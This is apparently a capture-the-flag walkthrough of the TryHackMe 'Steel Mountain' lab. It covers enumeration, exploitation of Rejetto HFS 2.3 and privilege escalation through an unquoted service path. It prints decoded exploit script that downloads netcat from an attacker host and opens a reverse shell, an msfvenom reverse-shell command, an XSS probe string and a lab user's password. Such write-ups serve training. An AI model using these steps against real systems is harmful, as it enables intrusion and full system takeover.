 ```yaml
---
title: Steel Mountain
date: 2024-02-13 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Steel Mountain is a vulnerable machine from [TryHackMe](https://tryhackme.com) that requires some standard enumeration with setting up and running a couple of exploits. After you find the vulnerable services, the exploits and path to foothold and privilege escalation are straightforward. 

## Nmap Scan
* nmap -T4 -p- <target ip>
    * PORT      STATE SERVICE
    * 80/tcp    open  http
    * 135/tcp   open  msrpc
    * 139/tcp   open  netbios-ssn
    * 445/tcp   open  microsoft-ds
    * 3389/tcp  open  ms-wbt-server
    * 5985/tcp  open  wsman
    * 8080/tcp  open  http-proxy
    * 47001/tcp open  winrm
    * 49152/tcp open  unknown
    * 49153/tcp open  unknown
    * 49154/tcp open  unknown
    * 49155/tcp open  unknown
    * 49156/tcp open  unknown
    * 49169/tcp open  unknown
    * 49170/tcp open  unknown
* nmap -T4 -sV -A -p 135,139,445,3389,8080 <target ip>
    * 135/tcp  open  msrpc        Microsoft Windows RPC
    * 139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
    * 445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    * 3389/tcp open  ssl          Microsoft SChannel TLS
    * 5985/tcp  filtered wsman
    * 47001/tcp open     http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    * |_http-server-header: Microsoft-HTTPAPI/2.0
    * 8080/tcp open http HttpFileServer httpd 2.3
[Rejetto HFS](https://www.rejetto.com/hfs/)

Most of the ports open aren't terrible helpful to use, the unknowns we can ignore here. The most interesting are typically the smb and http services. Checking out the smb services didn't get me anywhere at all, as there doesn't seem to be any access open over smb from what I could find. 

## Checking out the Site
We did find a login page on the site. There doesn't seem to be much we can do here without credentials:
* http://10.10.243.11:8080/~login

## Enumerating the Web Site
Nikto Scan
> nikto -h http://10.10.243.11:8080
    OSVDB-38019: /?mod=<script>alert(document.cookie)</script>&op=browse: Sage 1.0b3 is vulnerable to Cross Site Scripting (XSS).

Dirbuster
> dirbuster dir -u http://10.10.243.11:8080/ -w /usr/share/wordlists/dirb/common.txt 
    No interesting directories found on the site.

## Vulnerable Service
We do see this is Rejetto HttpFileServer 2.3 version. This has a vulnerability that exists both in `Metasploit` and a public python script. We can use searchsploit to find the public exploit: "searchsploit Rejetto 2.3"
* More than one file may come up in your search, and I actually found a different script by mistake at first: `49125.py`
* Took some attempts for me to figure out this is the wrong exploit, and instead the target public exploit is: `39161.py`
    * #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).

Decoding some of the script, we can easily understand the intent: 
```java
{
ip_addr = "attacker ip" #local IP address
local_port = "listening port" # Local Port number

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with

vbs2 = cscript.exe C:\Users\Public\script.vbs
vbs3 = "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
}
```
After URL Decoding the portions of the script that are encoded, we can see this script intends to utilize vbs script creation in order to reach back to our attacker machine, grab netcat, and then use netcat to reach back to our attacker IP and Port that is stagged on our end with netcat. 

> If we have our listener stagged properly on our attacker box with netcat, we will get a connection back to our attacker machine. 

> Success! We are on the machine as the user bill, and can grab user.txt. Now we need to enumerate the box to find our privilege escalation path. 

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/steel_mountain/steelmnuser.png?raw=true)

## Local Enumeration
After doing a file transfer with powershell, we let the x86 version of winpeas run to see what vulnerabilities exist, and take a look through to see what stands out the most. We want to find the low hanging fruit. 

* Basic enumeration items we find:
    * This is a Windows Sever 2012 R2 Data Center
    * Build number 9600
    * All Access to some Named Pipes, with one that has WriteData/Create File access
    * 3 users, Administrator, Guest, and Bill; Guest is disabled
    * There is a Public directory, and we have write/create file access there
    * No interesting files for us, we picked up our nc.exe and the hfs.exe files

Services that are non-microsoft, seems to be:
- Advanced System Care; AdvancedSystemCareService9.
- Amazon Agent.
- IEETwCollectorService.
- IObitUnSvr; no quotes and space detected.
- LiveUpdateSvc; no quotes and space detected.
- Can modify installed programs, seems to be related to those IOBit pua’s.

>Looks like we can write and create files inside of windows tasks and system32 tasks.
>> Found Bills password: PMBAf5KhZAxVhvqb
>>> Ntlmv2 hash was found, not super useful in this context as we aren't looking to pivot from this box.

At this point, the unquoted service path vulnerability seems to be the best choice to try. We need to craft a reverse shell payload to replace a process in one of the file path's are has a space, and that didn't have quotes around it. 

## Crafting our payload
Since `Advanced System Care` didn't have quotes, we throw a reverse shell into this file path as `Advanced.exe`. After we move the file into the path, we need to then stop and start the service that runs the files out of that path, which is service `AdvancedSystemCareService9`.

> Craft payload with `msfvenom`:
>> msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4545 -f exe > Advanced.exe

We transfer the payload over, put it in the correct path, and use sc start/stop to stop and start the service. Once this is done, we get our shell back, and are now `NT Authority\System`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/steel_mountain/steelmnroot.png?raw=true)